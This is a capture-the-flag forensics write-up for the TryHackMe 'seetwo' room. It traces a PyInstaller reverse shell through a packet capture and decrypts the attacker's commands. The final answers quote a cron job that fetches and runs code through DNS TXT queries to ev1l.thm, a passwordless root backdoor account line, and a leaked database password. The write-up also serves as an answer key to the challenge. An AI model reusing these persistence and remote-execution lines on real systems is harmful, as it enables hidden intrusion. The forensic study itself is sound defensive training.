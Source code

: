 +++
title = 'TryHackMe seetwo write-up'
date = 2025-02-05T07:07:07+01:00
+++
**Description**

*You are tasked with looking at some suspicious network activity by your digital forensics team.
The server has been taken out of production while you analyze the suspicious behavior.*

We are provided with a pcap file

![alt](images/img1.png)

Let's look at it in Wireshark. First we can view the statistics window to get an overview of the traffic captured in this file. 

![alt](images/img2.png)

We can see that the traffic is basically all TCP, containing some SSH packets and 2 HTTP packets. Let's explore those two

![alt](images/img3.png)

We see one GET request at /base64_client and the 200 OK response

![alt](images/img4.png)

By examining the response packet, we can see that a lot of base64 encoded data was transmitted. Let's decode it

![alt](images/img5.png)

We see ELF magic bytes so we know it's a linux executable file. We can save the output to a file in CyberChef. Out of curosity we can check the file on VirusTotal

![alt](images/img6.png)

It's flagged as a generic python trojan. To double check whether it's a python executable we can run strings on it

![alt](images/img7.png)

In the output we can find a bunch of python libraries, confirming that it is indeed python executable. To reverse it we firstly run [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor) tool. 

![alt](images/img8.png)

As a result a directory got created with the original python bytecode files and resources

![alt](images/img9.png)

However, for us the most important file is the client.pyc, which is a bytecode version of the program (judging by the name). To decompile it we can use a tool called [python-uncompyle6](https://github.com/rocky/python-uncompyle6)

![alt](images/img10.png)

As a result we get a client.py file

![alt](images/img11.png)

It's a simple reverse shell that's connecting to 10.0.2.64 on port 1337. It receives encrypted commands, runs them and sends back encrypted result. Let's go back to Wireshark and find this communication in the pcap file. We can use this filter to find the data send from the port 1337 using tcp protocol

`tcp.srcport == 1337 && tcp.flags.push == 1`

![alt](images/img12.png)

When we follow the tcp stream in we will see the encrypted commands and results that were transferred through the network

![alt](images/img13.png)

We have the data however in the left bottom corner we see that there are only 3 packets sent and 3 received. That seems way too little considering how many packets we got in the previous step when we applied the tcp.srcport == 1337 && tcp.flags.push == 1 filter. In the right bottom corner we can notice that there are more streams. Let's see the next one

![alt](images/img14.png)

This have the same structure as the previous stream, with data starting with iVBOR and having the AAAAAAAAAA sequence towards the end, meaning these are also the encrypted commands we are looking for. Let's combine them all and decrypt them. To do that we will simply modify the code from client.py. Since the data that we want is between the character sequence of AAAAAAAAAA and iVBOR we can carve it out with regex and then run the decryption process

![alt](images/img15.png)

![alt](images/img16.png)

As a result we get the decrypted commands sent to the machine. We can see that the attacker created cron jobs that are sending a DNS query to ev1l.thm for TXT records using custom @ns.ev1l.thm DNS server. Then the result is executed. This way the attacker wants to avoid detection when communicating with the victim's machine, by blending in with existing traffic. More about it [here](https://attack.mitre.org/techniques/T1071/004/). Lastly, we can see some base64 string. Let's decode it

![alt](images/img17.png)

We have everything to answer the questions in this challenge

*What is the first file that is read? Enter the full path of the file.*

/home/bella/.bash_history

*What is the output of the file from question 1?*

mysql -u root -p'vb0xIkSGbcEKBEi'

*What is the user that the attacker created as a backdoor? Enter the entire line that indicates the user.*

toor::0:0:root:/root:/bin/bash

*What is the name of the backdoor executable?*

/usr/bin/passswd

*What is the md5 hash value of the executable from question 4?*

23c415748ff840b296d0b93f98649dec

*What was the first cronjob that was placed by the attacker?*

'* * * * * /bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.ev1l.thm)"'

*What is the flag?*

THM{See2sNev3rGetOld}